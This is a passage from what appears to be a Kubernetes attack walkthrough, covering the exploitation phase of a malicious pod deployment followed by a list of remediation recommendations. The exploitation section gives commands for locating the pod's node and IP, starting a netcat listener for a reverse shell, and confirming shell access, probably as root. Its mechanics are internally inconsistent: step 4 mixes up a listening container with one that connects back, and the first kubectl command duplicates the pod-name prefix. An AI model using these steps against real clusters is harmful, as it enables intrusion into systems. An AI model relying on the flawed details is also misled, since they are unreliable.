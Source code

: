 **Phase 4: Exploitation (Gaining a Reverse Shell)**

1.  **Identify the Node the Pod is Running On:**
    ```bash
    kubectl get pod malicious-deployment-$(kubectl get pods -l app=malicious-app -o name | cut -d '/' -f 2) -o wide
    ```
    *Explanation:* This command retrieves the pod name dynamically using the label `app=malicious-app` and then gets detailed information, including the node the pod is running on. The command consists of two parts. `kubectl get pods -l app=malicious-app -o name | cut -d '/' -f 2` extracts the pod name. This is used in the following command `kubectl get pod malicious-deployment-$(...) -o wide` which retrieves detailed information about the pod. The -o wide option gives us additional information about where the pod is running.
    *Expected Output:* The output will show the node name the pod is running on in the `NODE` column. This step allows you to target the right IP address for your reverse shell connection, especially in multi-node clusters.

2.  **Find the internal IP address of the node where the pod is running.**

    ```bash
    kubectl get node <node_name> -o yaml | grep InternalIP | awk '{print $2}'
    ```
    *Explanation:* This command first retrieves the node information using `kubectl get node <node_name> -o yaml` and pipes the output to `grep InternalIP` to filter out the `InternalIP` parameter. Then `awk '{print $2}'` is used to print the IP address found on the second column.
    *Expected Output:* The internal IP address of the node where your malicious pod is running.

3.  **Set up a listener on your attacking machine:**
    ```bash
    nc -l -p 4444
    ```
    *Explanation:* This command starts a `netcat` listener on your machine, waiting for an incoming connection on port 4444.
    *Expected Output:* The command will appear to hang, indicating it is waiting for a connection.

4.  **Trigger the Reverse Shell (nothing to do, connection comes automatically):** Because the container is listening on port 4444 and executing /bin/sh upon connection, no further action is required. The container will automatically attempt to establish a connection to your listening machine.

5.  **Check your Netcat Listener:** You should now have a shell on your attacking machine. Type `whoami` to verify that the connection succeeded and you are inside the container.
    ```bash
    whoami
    ```
    *Explanation:* The reverse shell executed the command to execute a shell on the container environment. You should now be able to run shell commands on the container.
    *Expected Output:*  The user name of the container. Probably root.

**Remediation Recommendations:**

1.  **Implement Image Scanning:** Use tools like Aqua Security, Clair, or Anchore to scan container images for vulnerabilities before deployment.
2.  **Enforce RBAC Policies:**  Implement strict RBAC policies to limit who can create deployments and other resources.  Follow the principle of least privilege.
3.  **Use Pod Security Admission (PSA):** Implement PSA to restrict the capabilities of pods, such as preventing them from running as root or accessing the host network.
4.  **Implement Network Policies:**  Use network policies to restrict network traffic between pods, limiting the blast radius of a compromised container.
5.  **Secure Container Registries:**  Use strong authentication and authorization for container registries. Enable auditing and logging. Consider using a private registry.
6.  **Implement Admission Controllers:**  Use admission controllers to enforce policies at the time of pod creation, such as requiring image signatures or restricting resource requests. Kyverno is a good alternative to OPA.
7.  **Regularly Audit Kubernetes Configuration:** Conduct regular audits of your Kubernetes configuration to identify and address potential security vulnerabilities.
8.  **Use Immutable Infrastructure:** Consider using immutable infrastructure principles, where container images are built once and deployed as is. This reduces the risk of runtime modifications.
